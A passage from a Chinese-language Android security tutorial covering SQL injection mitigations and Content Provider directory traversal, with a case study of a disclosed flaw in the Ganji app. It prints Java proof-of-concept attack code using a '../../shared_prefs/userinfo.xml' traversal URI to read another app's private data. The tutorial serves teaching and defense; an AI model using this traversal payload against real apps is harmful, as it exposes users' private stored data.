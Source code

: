```
1.实现健壮的服务端校验
2.使用参数化查询语句，比如SQLiteStatement
3.避免使用rawQuery()
4.过滤用户的输入

```

### 4. 目录遍历漏洞

#### [](#（1）原理介绍)（1）原理介绍

```
Android Content Provider存在文件目录遍历安全漏洞，该漏洞源于对外暴露Content Provider组件的应用，没有对Content Provider组件的访问进行权限控制和对访问的目标文件的Content Query Uri进行有效判断，攻击者利用该应用暴露的Content Provider的openFile()接口进行文件目录遍历以达到访问任意可读文件的目的

```

漏洞触发的前提条件：

```
对外暴露的Content Provider组件实现了openFile()接口
没有对所访问的目标文件Uri进行有效判断，如没有过滤限制如“../”可实现任意可读文件的访问的Content Query Uri

```

#### [](#（2）漏洞复现)（2）漏洞复现

案例 1：[赶集网 Android 客户端 Content Provider 组件任意文件读取漏洞](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2013-044407)

 

漏洞分析：

```
赶集网客户端APP的实现中定义了一个可以访问本地文件的Content Provider组件，默认的android:exported="true",对应com.ganji.android.jobs.html5.LocalFileContentProvider，该Provider实现了openFile()接口，通过此接口可以访问内部存储app_webview目录下的数据，由于后台未能对目标文件地址进行有效判断，可以通过"../"实现目录跨越，实现对任意私有数据的访问（当然，也可以访问任意外部存储数据，只是我们更关心私有敏感数据）。

```

攻击代码：

```
public void GJContentProviderFileOperations(){
    try{
        InputStream in = getContentResolver().openInputStream(Uri.parse("content://com.ganji.html5.localfile.1/webview/../../shared_prefs/userinfo.xml"));
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] buffer = new byte[1024];
        int n = in.read(buffer);
        while(n>0){
            out.write(buffer, 0, n);
            n = in.read(buffer);
            Toast.makeText(getBaseContext(), out.toString(), Toast.LENGTH_LONG).show();
        }
    }catch(Exception e){
        debugInfo(e.getMessage());
    }
}

```
